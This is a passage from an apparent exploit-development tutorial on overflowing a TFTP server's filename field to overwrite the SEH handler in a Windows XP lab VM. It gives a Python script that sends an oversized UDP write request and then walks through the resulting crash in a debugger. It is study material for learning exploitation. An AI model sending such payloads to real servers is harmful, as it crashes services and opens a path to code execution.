 Well thats roughly how it SHOULD work. But there is one other thing you will see further along that will prevent this from working normally. See if you can't figure it out ;)

## Initial Exploit

Here is the initial copy of the exploit code that we will use as a starting point for this tutorial:

```python
import socket
host = "127.0.0.1"
port = 69
filename = "\x41" * 2000
mode = "netascii"
data = "\x00\x02" + filename  + "\0" + mode + "\0"
handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```

Some things to note here are that we use the `SOCK_DGRAM` for UDP mode in this case. Also we use `handler.sendto` rather than `handler.send`. Again these are differences in using UDP in Python compared to TCP.

Now that that's sorted out lets try testing things out.

## Our First Test

First though we need to make sure we load the program and specify the `-v` option as a parameter or else the program won't run correctly.

[![](https://4.bp.blogspot.com/-FFDo0FUIvFI/UK5U9M76qCI/AAAAAAAAAEc/HGg8udoXlRk/s0/Selection_017.png)](https://4.bp.blogspot.com/-FFDo0FUIvFI/UK5U9M76qCI/AAAAAAAAAEc/HGg8udoXlRk/s0/Selection_017.png)

And now we have our server started:

[![](https://1.bp.blogspot.com/-oOf_aGjjJjk/UK5VzIa6bFI/AAAAAAAAAEk/LK4Jyv3lMIM/s0/Selection_020.png)](https://1.bp.blogspot.com/-oOf_aGjjJjk/UK5VzIa6bFI/AAAAAAAAAEk/LK4Jyv3lMIM/s0/Selection_020.png)

Lets send the exploit:

[![](https://4.bp.blogspot.com/-f6PFNGeoleU/UK5WYE2uKQI/AAAAAAAAAEs/8RoBbC6Yb3Q/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_021.png)](https://4.bp.blogspot.com/-f6PFNGeoleU/UK5WYE2uKQI/AAAAAAAAAEs/8RoBbC6Yb3Q/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_021.png)

Ok so we get an access violation when writing to `0x00230000`. Looking at our registers we notice the following:

* ECX appears to be overwritten with some of our A's.
* The stack appears to point to multiple different sections within our A's.

More importantly if we look at the SEH chain we see the following:

[![](https://1.bp.blogspot.com/-LiHSL4gfT_A/UK5Xd9wZnZI/AAAAAAAAAE0/LfIXN3Wwbko/s0/Selection_022.png)](https://1.bp.blogspot.com/-LiHSL4gfT_A/UK5Xd9wZnZI/AAAAAAAAAE0/LfIXN3Wwbko/s0/Selection_022.png)

So we also seem to have overwritten our SEH handler.
